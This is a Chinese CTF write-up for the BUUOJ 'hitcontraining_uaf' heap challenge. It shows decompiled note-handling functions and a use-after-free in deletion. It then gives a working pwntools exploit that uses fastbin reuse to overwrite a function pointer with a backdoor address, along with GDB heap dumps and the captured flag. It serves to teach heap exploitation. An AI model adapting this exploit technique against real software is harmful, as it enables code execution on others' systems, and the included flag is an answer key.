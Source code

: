 # hitcontraining_uaf

[题目地址](https://buuoj.cn/challenges#hitcontraining_uaf)

我是sb。

这题真的超级简单，超级超级简单那种，也是我遇见第一道有点眉目的题，但是还是没出来。我是超级超级的sb。(⌒-⌒; )

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

防护也没开多少。唉我怎么就没做出来呢，还是对堆知识不熟啊。main函数就不放了，我描述一下，一个正常菜单类堆题，有添加，删除和打印操作，注意没有4件套中的编辑功能。添加函数的实现非常有个性。

```c
void add_note(void)

{
  int iVar1;
  void *pvVar2;
  char size [8];
  size_t _size;
  int i;
  
  if (count < 6) {
    for (i = 0; i < 5; i = i + 1) {
      if (*(int *)(notelist + i * 4) == 0) {
        pvVar2 = malloc(8);
        *(void **)(notelist + i * 4) = pvVar2;
        if (*(int *)(notelist + i * 4) == 0) {
          puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
          exit(-1);
        }
        **(code ***)(notelist + i * 4) = print_note_content;
        printf("Note size :");
        read(0,size,8);
        _size = atoi(size);
        iVar1 = *(int *)(notelist + i * 4);
        pvVar2 = malloc(_size);
        *(void **)(iVar1 + 4) = pvVar2;
        if (*(int *)(*(int *)(notelist + i * 4) + 4) != 0) {
          printf("Content :");
          read(0,*(void **)(*(int *)(notelist + i * 4) + 4),_size);
          puts("Success !");
          count = count + 1;
          return;
        }
        puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
        exit(-1);
      }
    }
  }
  else {
    puts("Full");
  }
  return;
}
```

联系打印操作。

```c
void print_note(void)

{
  char local_14 [4];
  int index;
  
  printf("Index :");
  read(0,local_14,4);
  index = atoi(local_14);
  if ((-1 < index) && (index < count)) {
    if (*(int *)(notelist + index * 4) != 0) {
      (***(code ***)(notelist + index * 4))(*(undefined4 *)(notelist + index * 4));
    }
    return;
  }
  puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```

跟其他实现方法天差地别，这里是调用add时添加的代码来打印内容。删除操作有很明显的uaf。

```c
void del_note(void)

{
  char local_14 [4];
  int index;
  
  printf("Index :");
  read(0,local_14,4);
  index = atoi(local_14);
  if ((-1 < index) && (index < count)) {
    if (*(int *)(notelist + index * 4) != 0) {
      free(*(void **)(*(int *)(notelist + index * 4) + 4));
      free(*(void **)(notelist + index * 4));
      puts("Success");
    }
    return;
  }
  puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```

这题真的非常简单，包括代码的实现都很新手友好。关键在于fastbin的管理机制。直接放exp，过于简单导致我不知道怎么分析。

```python
from pwn import *
context.log_level = 'debug'
sh = remote("node4.buuoj.cn",25271)

def add(size,content):
	sh.sendlineafter('choice :','1')
	sh.sendlineafter('size :',str(size))
	sh.sendlineafter('Content :',content)
def free(idx):
	sh.sendlineafter('choice :','2')
	sh.sendlineafter('Index :',str(idx))
def show(idx):
	sh.sendlineafter('choice :','3')
	sh.sendlineafter('Index :',str(idx))

magic_addr = 0x08048945
add(16,'aaaa')
add(16,'bbbb')
free(0)
free(1)
add(8,p32(magic_addr))#申请8字节才能将chunk2的content指针指向chunk0的前8个字节
show(0)
sh.interactive()
```

先申请两个笔记，实际上我们malloc了4个块，因为每个笔记都要单独malloc 2个堆块，一个给print_note_content指针，一个给用户输入内容。add一个笔记后notelist长这样。

```
(gdb) x/16x 0x0804a048
0x804a048 <notelist>:   0x08b051a0      0x00000000      0x00000000      0x00000000
0x804a058 <notelist+16>:        0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a078:      0x00000000      0x00000000      0x00000000      0x00000000
```

看看0x08b051a0里面是啥。

```
(gdb) x/16x 0x08b051a0 
0x8b051a0:      0x080485fb      0x08b051b0      0x00000000      0x00000011
0x8b051b0:      0x00000061      0x00000000      0x00000000      0x00021e49
0x8b051c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8b051d0:      0x00000000      0x00000000      0x00000000      0x00000000
```

0x080485fb是print_note_content函数指针，0x08b051b0是输入的内容，这里就一个a。0x08b051b0和0x00000011中间的空内容是因为程序malloc了8个字节，但是指针只有4个字节长。接着exp，free 0号笔记和1号笔记，由于删除笔记选项中先free内容指针，再free函数指针，fastbin就有着这样的结构，括号内是它的大小：

笔记0内容指针堆块（16）->笔记0函数指针堆块（8）->笔记1内容指针堆块（16）->笔记1函数指针堆块（8）

现在我们add一个内容大小为8的新笔记。首先从链表中拿出一个长度为8的堆块给函数指针，然后再拿一个长度为8的堆块给内容指针。所以新的笔记的内容指针堆块等同于笔记1函数指针堆块（8），函数指针堆块等同于笔记0函数指针堆块（8）。我们将内容设置为magic_addr等同于将笔记0函数指针堆块（8）更改为笔记0函数指针堆块（8）。此时print堆块就是执行后门了。就这么简单，这还没有rop复杂呢。

## Flag
> flag{69f11a87-58fb-4a8f-930f-acdb13800cba}